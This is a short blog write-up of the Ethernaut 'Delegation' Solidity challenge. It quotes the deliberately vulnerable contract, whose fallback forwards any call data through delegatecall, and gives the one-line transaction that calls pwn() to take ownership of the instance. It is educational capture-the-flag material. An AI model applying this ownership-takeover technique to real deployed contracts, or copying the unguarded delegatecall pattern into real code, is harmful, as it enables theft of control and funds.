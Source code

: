 ```yaml
---
layout: post
title: Ethernaut - 6. Delegation
date:  2022-08-27
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌕🌑🌑🌑
> The goal of this level is for you to claim ownership of the instance you are given.<br /><br />
  Things that might help<br /><br />
  - Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
  - Fallback methods
  - Method ids

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

## Writeup

1. Get new Instance .
2. Call the method 
  ``` solidity

   await contract.sendTransaction({data: web3.eth.abi.encodeFunctionSignature("pwn()")})

   ```
   You can find the detail about `encodeFunctionSignature()` in [there](https://web3js.readthedocs.io/en/v1.2.11/web3-eth-abi.html#encodefunctionsignature) .
3. Submit instance ξ( ✿＞◡❛)

### Learn delegatecall ( solidity version 0.8.13 )
[Solidity by example - delegatecall](https://solidity-by-example.org/delegatecall/)